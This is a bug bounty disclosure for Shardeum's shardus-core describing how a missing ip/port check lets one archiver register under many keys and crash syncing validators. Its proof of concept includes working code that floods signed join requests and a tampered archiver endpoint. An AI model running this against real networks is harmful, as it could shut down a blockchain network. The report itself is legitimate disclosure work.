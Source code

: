 # 33576 - \[BC - High] Lack of deduplication in joinarchiver requests ...

Submitted on Jul 24th 2024 at 01:42:01 UTC by @GuplerSaxanoid for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33576

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:

* Network not being able to confirm new transactions (total network shutdown)

## Description

## Brief/Intro

An adversary is able to register a single archiver node multiple times under different public keys due to lack of duplication checks against ip/port pairs in `joinarchiver` request validations. This allows the attacker to exhaust the maximum limit enforced on number of archivers that can join a shard, with the malicious archiver occupying majority of indices in archivers list. The malicious archiver is able to bring down syncing validator nodes with a fatal error.

## Vulnerability Details

During the request validation process in `joinarchiver` route, the program attempts to detect duplicate archivers by equating the public key in the request to the public keys that already exist. However, there is no attempt to detect duplicates based on ip/port values. This allows an attacker to register a single archiver node multiple times under different public keys to an extent that they exhaust the maximum limit on number of archivers that can join a shard.

There are several occasions in the program where a random archiver is chosen to access the list of active node in the network or the current cycle info:

1. When a standby node attempts to join the active set (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Self.ts#L228)
2. When a node attempts to sync with the existing active nodes (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Self.ts#L190)
3. When a standby node makes a standby-refresh (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/v2/standbyRefresh.ts#L16)

When a node attempts to sync with the active set, it makes a call to '/cycleinfo/:count' endpoint of a randomly chosen archiver. If the archiver returns an error response, the validator node shuts down with a fatal error.

A malicious archiver can be programed to always returns an erroneous response through cycleinfo calls. But, since archiver is selected randomly, the probability that the malicious archiver is selected should outweigh the probability that an honest archiver is selected.

In a network with 10 archiver nodes and 128 nodes-per-shard, 64 archivers can join the shard. Subtracting the 10 archiver nodes, the malicious archiver can present itself under 54 different public keys on each shard. The probability that the malicious archiver will be selected by syncing validator is approximately 0.84. Thus, syncing nodes are under a high probability of attack from the malicious validator.

## Impact Details

Since archiver nodes are expected to present themselves on every shard to subscribe to all of the state changes, the attack is imminent on every shard. All of the validator nodes in a shard will go through the syncing phase, where they are vulnerable to attack from the malicious archiver with a high probability. Hence, this exploit will cause a total network shutdown.

## Proof of Concept

1. Register the following external POST endpoint in validator:

```
shardus.registerExternalPost('archiver-join-hijack', externalApiMiddleware, async (req, res) => {
    while(true) { 
      const keypair = crypto.generateKeypair();
      const curveKey = crypto.convertPkToCurve(keypair.publicKey);

      const payload: ArchiversTypes.Request = crypto.signObj({
        nodeInfo: {
          curvePk: curveKey,
          ip: "127.0.0.1",
          port: 4000,
          publicKey: keypair.publicKey
        },
        appData: {
          version: AccountsStorage.cachedNetworkAccount.current.archiver.activeVersion
        },
        requestType: ArchiversTypes.RequestTypes.JOIN,
        requestTimestamp: (CycleChain.newest.start + CycleChain.newest.duration)*1000

      },keypair.secretKey, keypair.publicKey) as ArchiversTypes.Request;

      await Comms.sendGossip(
        'joinarchiver',
        payload,
        null,
        null,
        nodeListFromStates([
          P2P.P2PTypes.NodeStatus.ACTIVE,
          P2P.P2PTypes.NodeStatus.READY,
          P2P.P2PTypes.NodeStatus.SYNCING,
       ]),
       true
      )
    }

    return res.json("")
  })
```

PATCH file: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-validator-node-patch

NOTE: The above endpoint makes a call through gossip route instead of the external `joinarchiver` endpoint. This is done for ease of implementation in generating new public keys and signing the payload. However, the gossip route goes through the same deduplication process as the external endpoint, and both of them are equally vulnerable. This is to say that, a malicious validator is not required to perform this attack, the payloads can be signed by an external user/archiver and sent to an active node.

2. Alter `cycleinfo/:count` endpoint in @shardus/archiver module to the following to enact malicious archiver after 10 cycles:

```
server.get('/cycleinfo/:count', async (_request: CycleInfoCountRequest, reply) => {
    if(Cycles.getCurrentCycleCounter() > 10) {
      reply.send({ success: false, error: `Invalid count` })
      return
    }
    const err = Utils.validateTypes(_request.params, { count: 's' })
    if (err) {
      reply.send({ success: false, error: err })
      return
    }
    let count: number = parseInt(_request.params.count)
    if (count <= 0 || Number.isNaN(count)) {
      reply.send({ success: false, error: `Invalid count` })
      return
    }
    if (count > MAX_CYCLES_PER_REQUEST) count = MAX_CYCLES_PER_REQUEST
    const res = await Cycles.getLatestCycleRecords(count)
    reply.send(res)
  })
```

PATCH file: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-archiver-node-patch

IMPORTANT: Make sure to link the modified @shardus/archiver module to node\_modules in shardeum using `npm link`

3. spin up a local network in debug mode
4. wait for a few nodes to go active
5. Make a call to 'archiver-join-hijack' endpoint in an active validator node, the program will enter an infinite loop. Wait until you see the following warning logs in active nodes:

```
[2024-07-23T18:54:36.489] [WARN] p2p - Archiver: addJoinRequest: This archiver cannot join as max archivers limit has been reached
[2024-07-23T18:54:36.489] [WARN] p2p - Archiver: Archiver join request not accepted.
```

6. SIGKILL the previous call. Make a call to `archivers` endpoint to notice that archivers list contains multiple archivers pointing to same ip/port
7. Let the network run for a few cycles and observe that the syncing nodes goes offline with a fatal error.

Here are exit summaries from two random validator nodes for evidence: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-exit-summary-2-json https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-exit-summary-1-json
